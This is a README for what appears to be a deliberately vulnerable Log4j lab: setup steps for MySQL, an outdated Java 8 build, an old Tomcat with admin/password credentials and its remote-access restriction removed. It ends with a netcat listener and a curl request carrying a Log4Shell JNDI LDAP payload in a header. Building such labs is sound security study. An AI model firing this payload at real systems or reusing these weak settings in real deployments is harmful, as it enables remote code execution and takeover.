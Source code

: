 # basic-vulnerable-log4j

## Setting up SQL 
Note: For whatever reason, this current project when attempting to deploy on Tomcat gives an error saying it cannot find heroes.json, not really sure where to keep it, but decided might as well connect to a legit database and try that out eh?

References: 
https://spring.io/guides/gs/accessing-data-mysql/
https://javarevisited.blogspot.com/2022/03/spring-boot-mysql-database-example-crud.html
https://www.geeksforgeeks.org/spring-boot-crud-operations-using-mysql-database/
https://deeppatel23.medium.com/crud-operations-in-spring-boot-and-mysql-rest-apis-9ca0c15bdc73

Install SQL and setup SQL on machine:

`sudo apt update`
`sudo apt install mysql-server`
`sudo systemctl start mysql.service`

`sudo mysql`
spring: springsprong
In SPring boot:
Under `src/main/resources/application.properties`
Add:
```
spring.jpa.hibernate.ddl-auto=update
spring.datasource.url=jdbc:mysql://${MYSQL_HOST:localhost}:3306/db_example
spring.datasource.username=springuser
spring.datasource.password=ThePassword
spring.datasource.driver-class-name=com.mysql.cj.jdbc.Driver
#spring.jpa.show-sql: true
```

## Setup of Vulnerable Java 8
To acquire older java versions you can go to: https://repo.huaweicloud.com/java/jdk/
This gives a directory listing titled "Index of java-local/jdk"
From here, we pick any version that we require. In our case we will go with 8u181-b13
As we are installing on Ubuntu, we pick linux-x64.tar.gz. To extract:
`tar -xf jdk-8u181-linux-x64.tar.gz`

`sudo mkdir /opt/jdk`
`sudo mv jdk1.8.0_181/ /opt/jdk`

Create symbolic links in /usr/bin for java and javac that point to /opt/jdk/jdk1.8.0_181/bin/java and /opt/jdk/jdk1.8.0_181/bin/javac

`update-alternatives --install /usr/bin/java java /opt/jdk/jdk1.8.0_181/bin/java 100`

`update-alternatives --install /usr/bin/javac javac /opt/jdk/jdk1.8.0_181/bin/javac 100`

verify:
`java -version`
`javac -version`

We want to set JAVA_HOME environment variable for all users:
`sudo touch /etc/profile.d/java-home.sh`
`sudo echo "export JAVA_HOME=/opt/jdk/jdk1.8.0_181/" >> /etc/profile.d/java-home.sh`
`source /etc/profile.d/java-home.sh`

## Setting up tomcat to deploy application
`sudo groupadd tomcat`
`sudo useradd -s /bin/bash -g tomcat -d /opt/tomcat tomcat`

To find vulnerable version of Tomcat:
Go to https://archive.apache.org/dist/tomcat/tomcat-9/
We are going to download 9.0.0.M1, we go to bin and copy the tar.gz link for that
`sudo mkdir /opt/tomcat`
`sudo tar xzvf apache-tomcat-*tar.gz -C /opt/tomcat --strip-components=1`
Giving group ownership to tomcat of /opt/tomcat
`sudo chgrp -R tomcat /opt/tomcat`
give the tomcat group read access to the conf directory and all of its contents, and execute access to the directory itself:
`sudo chmod -R g+r conf`
`sudo chmod g+x conf`

Make the tomcat user the owner of the webapps, work, temp, and logs directories:
`sudo chown -R tomcat webapps/ work/ temp/ logs/`
Create and edit:
`sudo nano /etc/systemd/system/tomcat.service`

```
[Unit]
Description=Apache Tomcat Web Application Container
After=network.target

[Service]
Type=forking

Environment=JAVA_HOME=/opt/jdk/jdk1.8.0_181
Environment=CATALINA_PID=/opt/tomcat/temp/tomcat.pid
Environment=CATALINA_HOME=/opt/tomcat
Environment=CATALINA_BASE=/opt/tomcat
Environment='CATALINA_OPTS=-Xms512M -Xmx1024M -server -XX:+UseParallelGC'
Environment='JAVA_OPTS=-Djava.awt.headless=true -Djava.security.egd=file:/dev/./urandom'

ExecStart="/opt/tomcat/bin/startup.sh"
ExecStop="/opt/tomcat/bin/shutdown.sh"

User=tomcat
Group=tomcat
UMask=0007
RestartSec=10
Restart=always

[Install]
WantedBy=multi-user.target
```
`sudo systemctl daemon-reload`
`sudo systemctl enable --now tomcat`

Configure Tomcat Web Management Interface
`sudo nano /opt/tomcat/conf/tomcat-users.xml`
add a user who can access the manager-gui and admin-gui (web apps that come with Tomcat).
```
<tomcat-users . . .>
    <user username="admin" password="password" roles="manager-gui,admin-gui"/>
</tomcat-users>
```
Newer versions of tomcat restrict access to manager and host manager apps to connections from server itself.
To change IP restrictions to allow remote access:

In Manager App, modify:
`sudo nano /opt/tomcat/webapps/manager/META-INF/context.xml`

Host Manager app, modify:
`sudo nano /opt/tomcat/webapps/host-manager/META-INF/context.xml`
Comment entry
```
<Context antiResourceLocking="false" privileged="true" >
  <!--<Valve className="org.apache.catalina.valves.RemoteAddrValve"
         allow="127\.\d+\.\d+\.\d+|::1|0:0:0:0:0:0:0:1" />-->
</Context>
```

Web Application Manager: http://127.0.0.1:8080/manager/html
Tomcat Virtual Host Manager: http:/127.0.0.1:8080/host-manager/html

## Deploying this repo
`git clone` repository
`sudo apt install maven`
`mvn clean package` - Generate WAR file

Go to Tomcat Web application manager
Under the section WAR file to deploy
Select WAR file from directory and click DEPLOY
If successful, an entry of the application will appear under Applications section
In my case `/heroes-api-0.0.1-SNAPSHOT`, Click start to make it available
Then navigate to: http:/127.0.0.1:8080/heroes-api-0.0.1-SNAPSHOT


exploit test:
`nc -lvnp 9999`

```
curl --location 'http://localhost:8080/heroes' \
--header 'X-Api-Version: ${jndi:ldap://127.0.0.1:9999}'
```

## Exploitation:
